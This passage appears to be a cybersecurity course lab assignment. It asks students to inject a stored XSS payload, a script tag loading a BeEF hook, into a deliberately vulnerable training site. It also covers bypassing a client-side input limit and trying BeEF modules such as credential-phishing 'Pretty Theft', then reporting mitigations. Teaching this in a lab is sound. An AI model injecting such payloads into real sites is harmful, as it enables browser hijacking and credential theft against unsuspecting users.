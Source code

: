    - Task details:
     - You will test the Replicants Stored XSS application page (which we used on the first day of this module): `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command, was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      > **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
   - Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. Some that may work well include:
     
     - Social Engineering > Pretty Theft
     
     - Social Engineering > Fake Notification Bar
     
     - Host > Get Geolocation (Third Party)
    
6. In your M15 Challenge Submission File, paste a screenshot confirming that you successfully executed this exploit, and write two or three sentences outlining mitigation strategies for this vulnerability.  


### Submission Guidelines

* After you complete your Submission File, title it with the following format: < YOUR NAME >< M15 Challenge Submission File >
* Make sure to set the file permissions so that anyone can view and comment on your document.
* Submit the URL of your Submission File Google Doc through Canvas.
